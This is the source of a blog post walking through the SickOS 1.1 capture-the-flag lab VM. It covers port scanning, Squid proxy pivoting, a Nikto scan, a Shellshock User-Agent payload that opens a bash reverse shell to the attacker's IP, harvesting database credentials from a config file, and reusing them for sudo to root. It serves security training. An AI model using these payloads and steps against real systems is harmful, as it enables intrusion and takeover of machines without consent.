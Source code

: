 ```yaml
---
layout: blog_item
title:  "SickOS 1.1 - Walkthrough"
date:   2014-01-10 11:00:10
author: Arr0way
description: 'SickOS 1.1 - Walkthrough / Writeup'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them.

**Author:** [@D4rk36](https://twitter.com/D4rk36)

**Download:** [VulnHub](https://www.vulnhub.com)


## Host Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.138

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 3128</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP-Proxy</p></pc>
           </td>
           <td>
               <pc><p>Squid http proxy 3.1.19</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Squid Enumeration

Inspection of Squid using the metasploit module <code>auxiliary/scanner/http/squid_pivot_scanning</code> discovered port 80 was exposed via the proxy.

![Metasploit Squid Pivot Scanning](/img/blog/sickos/metasploit-squid-pivot-scanning.png)


## Nikto scan via Proxy

Nikto was configured to use the discovered Squid proxy:

{% highlight bash %}

[root:~]# nikto -h 192.168.221.138 -useproxy http://192.168.221.138:3128

{% endhighlight %}

Nikto disclosed the location <code>/cgi-bin/status</code>, indicating the target could be vulnerable to **shellshock**.

![Nikto Proxy Scan](/img/blog/sickos/nikto-proxy-scan.png)


## Shellshock Bash Reverse Shell

**Burp Suite** was used to manipulate <code>User-Agent:</code> to include the bash reverse shell.

{% highlight bash %}
() { ignored;};/bin/bash -i >& /dev/tcp/192.168.221.139/443 0>&1
{% endhighlight %}


![Burp Suite Shellshock Reverse Bash Shell](/img/blog/sickos/burp-shellshock-reverse-shell.png)

A reverse shell was established:

{% highlight bash %}

[root:~]# nc.traditional -lp 443 -vvv
listening on [any] 443 ...

192.168.221.138: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.138] 59815
bash: no job control in this shell
www-data@SickOs:/usr/lib/cgi-bin$

{% endhighlight %}


## Local Enumeration

Local enumeration of the system disclosed the file <code>/var/www/wolfcms/config.php</code> containing:

{% highlight bash %}
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
{% endhighlight %}

## Local Privilege Escalation

The previously discovered credentials worked for MySQL root, and were reused for the user <code>sickos</code> and again for <code>sudo</code> as the user <code>sickos</code>.

Local Privilege Escalation:

{% highlight bash %}

www-data@SickOs:/$ su - sickos
su - sickos
Password: john@123

sickos@SickOs:~$ ls
ls
sickos@SickOs:~$ cat .bash_history
cat .bash_history
sudo su
exit
sickos@SickOs:~$ sudo -s
sudo -s
[sudo] password for sickos: john@123

root@SickOs:~# cd /root  
cd /root
root@SickOs:/root# ls
ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:/root# cat a0216ea4d51874464078c618298b1367.txt
cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying


root@SickOs:/root#

{% endhighlight %}

### Root Flag

![Sickos 1.1 Root Flag](/img/blog/sickos/root-flag.png)

Thanks for the VM :)
